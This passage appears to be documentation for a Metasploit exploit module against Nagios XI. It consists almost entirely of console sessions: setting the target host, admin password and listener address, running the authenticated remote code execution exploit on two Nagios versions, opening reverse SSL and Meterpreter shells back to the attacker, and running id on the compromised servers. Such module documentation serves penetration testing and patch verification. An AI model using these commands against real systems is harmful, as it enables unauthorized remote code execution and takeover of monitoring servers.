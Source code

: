 ```
Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   CMD


msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.1.12:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 2 opened (192.168.1.12:4444 -> 192.168.1.16:55162) at 2021-04-01 13:18:31 -0400

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```

### Nagios 5.6.5 on Ubuntu 20.04 LTS
```
msf > use exploit/linux/http/nagios_xi_mibs_authenticated_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set RHOSTS 172.19.34.88
RHOSTS => 172.19.34.88
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set LHOST 172.19.37.24
LHOST => 172.19.37.24
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > exploit

[*] Started reverse TCP handler on 172.19.37.24:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Sending stage (980808 bytes) to 172.19.34.88
[*] Meterpreter session 1 opened (172.19.37.24:4444 -> 172.19.34.88:49942) at 2021-04-16 12:40:40 -0500

meterpreter > getuid
Server username: www-data @ test-Virtual-Machine (uid=33, gid=33, euid=33, egid=33)
meterpreter > getprivs
[-] The "getprivs" command is not supported by this Meterpreter type (x86/linux)
meterpreter > shell
Process 11695 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),132(Debian-snmp),1001(nagios),1002(nagcmd)
```